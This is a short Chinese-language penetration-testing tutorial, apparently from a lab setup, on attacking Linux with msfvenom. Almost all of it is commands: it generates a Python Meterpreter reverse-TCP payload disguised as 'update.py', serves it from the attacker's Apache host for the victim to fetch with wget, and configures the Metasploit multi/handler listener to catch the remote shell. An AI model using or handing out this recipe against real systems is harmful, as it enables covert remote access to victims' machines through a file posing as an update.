 
### 使用msfvenom攻击Linux

使用msfvenom生成payload：

```javascript
root@kali:~# msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.222.146 lport=555 > /root/Desktop/update.py
```

![](/img/hack/vnc/1508116773496.png)

开启apache2服务，将update.py放置于web容器中，模拟用户下载攻击：

```
wget http://192.168.222.146/update.py
```


使用msfvenom打开监听：

```javascript
msf > use exploit/multi/handler 
msf exploit(handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.222.146
LHOST => 192.168.222.146
msf exploit(handler) > set LPORT 555
LPORT => 555
msf exploit(handler) > exploit
```
